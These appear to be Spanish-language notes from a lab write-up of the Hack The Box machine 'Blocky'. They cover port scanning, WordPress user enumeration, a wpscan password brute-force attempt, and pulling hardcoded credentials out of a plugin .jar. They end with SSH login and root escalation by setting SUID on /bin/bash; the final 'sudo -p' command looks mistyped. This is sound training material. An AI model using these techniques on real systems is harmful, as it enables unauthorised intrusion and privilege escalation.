







# Blocky

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.129.36.215
```



```bash
nmap -sCV -p21,22,80,25565 10.129.36.215 -oN targeted
```



Apache httpd 2.4.18 -> Xenial
Ubuntu 4ubuntu2.2 -> Xenial

No tenemos acceso anónimo a ftp ni otras credenciales en principio

Para conectarnos al servidor http deberemos incluir *blocky.htb* */etc/hosts*
- Encontramos un **wordpress**
```bash
nmap --script http-enum -p80 blocky.htb
```

- WordPress version: 4.8



Encontramos un usuario NOTCH en un post, registramos el usuario en  *wp-login.php* y efectivamente corresponde a un usuario existente. Intentaremos aplicar FB

Probamos con fuerza bruta y tarda la vida parece que no encuentra pass
```bash
wpscan --url blocky.htb -U NOTCH -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

Pruebo con enumeración de plugins vulnerables expuestos pero no encuentro ninguno a simple vista
```bash
curl http://blocky.htb | grep 'wp-content' | cat -l html
```

Encontramos en http://blocky.htb/plugins/ unos archivos *.jar* de los cuales es interesante uno llamado **BlockyCore.jar** en el cual parece haber ciertas credenciales mirando a simple vista con nvim



Miraremos en profundidad usando **jar**
Para ver el contenido:
```bash
jar tvf BlockyCore.jar
```

Para extraer el archivo que queramos:
```bash
jar -xf BlockyCore.jar com/myfirstplugin/BlockyCore.class´
```

Haciendo strings del archivo



root:8YsqfCTnvxAUeduzjNSXe22

Podemos verlo también con un decompilador del .jar llamado **jd-gui**



Vamos a intentar enumerar usuarios del wordpress:



Accedemos por ssh al sistema con **notch:8YsqfCTnvxAUeduzjNSXe22**
**notch**

Cambio ip -> 10.129.39.15

## Escalada

```bash
sudo -l
```

-> (ALL : ALL) ALL
```bash
chmod u+s /bin/bash
sudo -p
```

**root**
